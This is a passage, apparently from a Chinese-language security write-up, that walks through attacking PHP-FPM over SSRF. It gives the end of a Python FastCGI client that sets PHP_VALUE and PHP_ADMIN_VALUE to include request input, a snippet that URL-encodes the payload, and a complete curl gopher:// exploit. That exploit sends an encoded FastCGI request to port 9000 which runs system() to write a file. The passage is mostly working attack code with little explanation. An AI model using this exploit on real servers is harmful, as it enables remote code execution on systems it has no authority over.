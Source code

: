     'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1',
    'CONTENT_TYPE': 'application/text',
    'CONTENT_LENGTH': "%d" % len(content),
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
response = client.request(params, content)
print(force_text(response)) 
``` 
```

url编码

```
f = open('1.txt')
ff = f.read()
from urllib import quote
print quote(ff) 
```

得到gopher的exp

```
curl 'gopher://127.0.0.1:9000/_%01%01%97%9C%00%08%00%00%00%01%00%00%00%00%00%00%01%04%97%9C%01%D5%00%00%0E%02CONTENT_LENGTH50%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%15SCRIPT_FILENAME/var/www/html/123.php%0B%15SCRIPT_NAME/var/www/html/123.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%15REQUEST_URI/var/www/html/123.php%01%04%97%9C%00%00%00%00%01%05%97%9C%002%00%00%3C%3Fphp%20system%28%27echo%20sectest%20%3E%20/tmp/1.php%27%29%3B%20exit%3B%3F%3E%01%05%97%9C%00%00%00%00' 
```